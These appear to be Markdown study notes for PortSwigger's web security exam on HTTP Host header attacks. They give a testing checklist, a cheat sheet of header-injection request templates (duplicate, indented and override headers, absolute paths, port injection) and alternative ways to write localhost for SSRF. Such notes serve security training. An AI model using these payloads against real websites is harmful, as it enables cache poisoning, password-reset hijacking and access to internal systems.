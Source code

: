 ## Key Terms

```bash
- Param Miner extension
	  -> guess: headers, params, body, everything!
- 
```

## Most important labs

- [1]()

- [2]()

- [3]()

- [4]()


## Metodology

❗ Important: To avoid wasting time during the exam, PortSwigger warns that if an SSRF exists it will always be reachable at **IP-BRUTE-FORCE** on **port 6566**. 

```bash
- Discover allowed headers with Param Miner
- Try Arbitrary Host
- Only local users? 
	  -> localhost
	  -> SSRF (in exam always port 6566)
- Check fir flawed validation -> 
- Inject duplicate host header -> blocked? -> indent.
- Intruder -> !! disable update host to match !! 
- Try absloute path in GET = ignore malicious host
- Try inject in port after port : delimeter   
- 2 request in a single connection
```

## Cheat Sheet

```bash
# ARBITRARY HOST
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
# DUPLICATE HOST / SWITCH ORDER
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MALICIOUS INDENTED <TAB> (TRY MORE TABS) HOST + LEGIT HOST
GET /example HTTP/1.1
	Host: <OUR-SV>||<LOCALHOST-SSRF>         
Host: <VULNERABLE-WEB>
# TRY OTHER HEADERS -> X-Host, X-Forwarded-Server, X-HTTP-Host-Override ... etc
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
X-Forwarded-Host: <OUR-SV>||<LOCALHOST-SSRF>
# ABSOLUTE PATH = IGNORE HOST 
GET <ABSOLUTE_PATH>            
Host: <OUR-SV>||<LOCALHOST-SSRF>
# IN PORT (MEJORAR)
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
```

> DIFFERENT WAYS TO WRITE LOCALHOST   
``` 
> localhost
> 127.0.0.1  
	in decimal -> 2130706433 
	in binary  -> 01111111.00000000.00000000.00000001
> 127.255.255.255 
    in decimal -> 2147483647
    in binary  -> 01111111.11111111.11111111.11111111
> 127.1
```
